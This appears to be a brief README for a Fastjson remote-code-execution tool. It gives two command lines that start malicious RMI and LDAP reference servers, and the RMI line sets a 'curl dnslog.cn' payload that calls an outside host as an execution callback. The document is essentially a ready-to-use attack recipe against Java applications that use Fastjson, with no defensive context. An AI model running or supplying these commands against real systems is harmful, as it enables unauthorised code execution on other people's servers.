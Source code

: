 # fastjson_rce_tool

rmi:
java -cp fastjson_tool.jar EvilRMIServer 1099 53 "curl dnslog.cn"


ladp:
java -cp fastjson_tool.jar LDAPRefServer http://ip:port/#Object 8888


